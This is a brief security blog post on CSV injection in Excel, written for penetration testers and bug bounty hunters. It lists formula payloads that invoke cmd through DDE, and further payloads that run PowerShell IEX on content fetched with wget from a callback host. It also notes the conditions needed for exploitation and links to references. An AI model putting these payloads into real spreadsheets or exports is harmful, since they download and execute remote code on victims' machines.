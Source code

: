 ```yaml
---
layout: post
title:  "CSV Injection"
description: ""
date:   2016-12-03 18:04:58 +0000
categories: [CSV, Attack vectors, Test files, Mental notes]
---
```


CSV injection is the technique to leverage the fact that Excel executes the formulas embedded in a [CSV][wiki-csv]. The technique has been [covered][contextis] by [plenty][securelayer7] of [others][zsec-dangers-mitigation], and even used successfully in [bug][hackerone-hackerone] [bounties][zsec-pornhub], so I will not repeat myself.

### Test files

The following is the simplest test file for testing all the vulnerable characters:

```
=cmd|' /C echo = && pause'!A0,CSV injection
@SUM(1+1)*cmd|' /C echo @ && pause'!A0,CSV injection
+2+3+cmd|' /C echo + && pause'!A0,CSV injection
-2+3+cmd|' /C echo - && pause'!A0,CSV injection
```

Pro tip, use Burp collaborator manual client with a combination of PowerShell and wget to verify if the payload gets executed on the server:

```
=cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
@SUM(1+1)*cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
+2+3+cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
-2+3+cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
```

### Likelihood

As always, this requires that the eight planets is aligned to work. First of, the injection has to be echoed in the CSV file unencoded, and then the victim has to download the file and open it in Excel. Excel gives the user multiple warning messages before the code gets executed, and of course the success heavily relies on the payload being executed.

[//]: ### Impact

[//]: ### Remediation

### References
* [Wikipedia: CSV][wiki-csv]
* [Context: Comma Separated Vulnerabilities][contextis]
* [OWASP: CSV Excel Macro Injection][owasp]
* [SecureLayer7: Everything about the CSV Excel Macro Injection][securelayer7]
* [ZeroSec: CSV Injection Revisited - Making Things More Dangerous(and fun)][zsec-dangers-mitigation]
* [ZeroSec: CSV Injection -> Meterpreter on Pornhub][zsec-pornhub]
* [hackeone: CSV Injection with the CVS export feature][hackerone-hackerone]

[wiki-csv]: https://en.wikipedia.org/wiki/Comma-separated_values
[owasp]: https://www.owasp.org/index.php/CSV_Excel_Macro_Injection
[contextis]: https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/
[zsec-dangers-mitigation]: http://blog.zsec.uk/csv-dangers-mitigations/
[zsec-pornhub]: http://blog.zsec.uk/csvhub/
[hackerone-hackerone]: https://hackerone.com/reports/72785
[hackerone-pornhub]: https://hackerone.com/reports/146593
[xpnsec]: https://xpnsec.tumblr.com/post/133298850231/from-csv-to-meterpreter
[securelayer7]: http://blog.securelayer7.net/how-to-perform-csv-excel-macro-injection/
